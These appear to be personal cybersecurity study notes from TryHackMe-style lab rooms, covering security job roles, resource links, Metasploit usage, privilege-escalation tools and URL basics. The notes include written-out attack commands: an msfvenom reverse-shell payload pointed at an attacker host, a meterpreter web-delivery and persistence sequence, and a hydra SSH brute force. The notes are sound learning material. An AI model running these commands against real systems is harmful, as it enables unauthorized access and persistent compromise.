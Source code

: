 # Notes

**offensive security**

Look for vulnerabilities, recommend patches. Exploiting bugs. Finding loopholes. Gain unauthorized access.

* **penetration tester**: "Responsible for testing technology products for finding exploitable security vulnerabilities." (web security, network security knowledge, use various programming languages, cloud security)
* **Red Teamer**: "Plays the role of an adversary, attacking an organization and providing feedback from an enemy's perspective."
* **Security Engineer**: "design, monitor, and maintain security controls, networks, and systems to help prevent cyberattacks".

**defensive Security**. 
  * **Security Analyst** (monitor - splunk?)
  * **Incident Responder** (impact? goal? what can they do? - Volatility?)
  * **malware analysis**

Detect, and stop attacks. Monitor, analyze. Investigate infected computers, try to find how they were hacked, track down cybercriminals.

* Linux security researcher > Hashing


Other

* https://www.hackerrank.com/

<hr class="sep-both">

## Random

* Attack a vulnerable machine, scan the network to discover more vulnerable machines.

* Intrusion Detection System (IDS) is a system that detects unauthorised network and system intrusions. Examples include detecting unauthorised devices connected to the local network and unauthorised users accessing a system or modifying a file.

* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents

* Wireshark: https://unit42.paloaltonetworks.com/wireshark-workshop-videos/

* The [SecLists GitHub Repository](https://github.com/danielmiessler/SecLists/) contains useful lists of usernames/passwords, payloads, urls, ...

<hr class="sep-both">

## Metasploit

msfvenom to generate a reverse shell ELF binary: `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf`

generate a payload using msfvenom callnig /bin/bash:

msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Since we know our victim machine is running Windows Defender, let's go ahead and try a different method of payload delivery! For this, we'll be using the script web delivery exploit within Metasploit. Launch Metasploit now and select 'exploit/multi/script/web_delivery' for use.

* set target
* https://github.com/nobodyatall648/CVE-2019-1388
* A simple reverse HTTP payload.
  * 'set payload windows/meterpreter/reverse_http'.
* Following this, launch the attack as a job with the command 'run -j'.
  * jobs
  * jobs -i 0
  * paste the command output by Metasploit
* https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/
* run persistence -X

<hr class="sep-both">

## Learn again

* https://www.kali.org/tools/hashid/
* https://github.com/t0thkr1s/gtfo
* https://vulners.com/ -> https://vulners.com/cve/CVE-2016-1531
* WTF (strace) https://jvns.ca/strace-zine-v3.pdf
* no_root_squash: if a root user (client) is dumping a file on the server, then they will be created as "root": https://en.wikipedia.org/wiki/Unix_security#Root_squash
* https://github.com/mzet-/linux-exploit-suggester
* https://github.com/diego-treitos/linux-smart-enumeration (lse)
* https://0xsanz.medium.com/70-ways-to-get-root-linux-privilege-escalation-d98ec78f1405 (do not seem really "useful")
* ".old" as backups
* unexpected folders in "/"
* hydra -l username -P rockyou.txt ssh://{target ip}
  * try to bruteforce ssh password
  * ssh xxx@yyy -T -L xxx:domain:xxx: create a tunnel mapping one port to another, need more research.
* Nessus policies
  * if you have a scope/knowledge of specific ports/app (dig)
  * Discovery (all ports for instance)
  * Credentials tabs
* we may try to find urls with ".bak" files, like backup of scripts...

* Must read again
  * https://tryhackme.com/room/blue
  * https://tryhackme.com/room/ice
  * https://tryhackme.com/room/linuxstrengthtraining
  * https://tryhackme.com/room/blaster
  * https://tryhackme.com/room/kenobi

* Random: https://www.thewindowsclub.com/how-to-create-a-virtualbox-shared-folder-in-windows

<hr class="sl">

## ...

URL

* Scheme: (protocol) HTTP/HTTPS/...
* Username:Password@Domain:port/Path?query#Fragment
* Methods GET, DELETE...
* Headers
  * Server: some server
  * Set-cookie: ... => server send the cookie in every request
  * ...
* Response code

---


First, let's navigate to AttackerKB! For our purposes, think of AttackerKB as similar to Exploit-DB but with a higher degree of information surrounding vulnerabilities and the exploits therein associated with them. 

* read comments
* links to metasploit
* https://github.com/horshark/akb-explorer
* ...

We previously had to add the hostname to the /etc/hosts file because of this. SSL true. Metasploit. The hostname was found in the certificate.

* Command shell session 1 opened
  * If it shows that, you can write commands, that just no a meterpreter
  * use "background"
  * `sessions -u -1`
  * go to your new nice meterpreter session
  * https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html
  * `sessions -k 3`